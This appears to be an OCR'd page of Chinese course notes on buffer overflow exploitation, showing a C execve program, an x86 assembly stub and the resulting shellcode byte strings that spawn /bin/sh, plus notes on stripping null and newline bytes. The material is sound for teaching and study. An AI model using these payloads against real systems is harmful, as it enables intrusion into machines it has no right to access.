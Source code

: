 - - 当函数返回时改变EIP

**shellcode开发**

```c
void main(){
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0],name,NULL);
}
```

**如何利用缓冲区溢出**

把指令和数据改为字符串形式

"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x46
 \x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\
 xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\x
 ff\xff\xff/bin/sh"

**shellcode开发**

编写汇编程序

```assembly
section .text
global _start
_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```

编译并获取机器码

char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";

- 不是所有的字符都能作为shellcode     

- - gets():遇到换行符就停止
  - strcpy():遇到NULL就停止
  - ...

- shellcode需要做相应的调整 

- - 删除 \x00,空格，换行符...
  - 删除不能被打印的字符
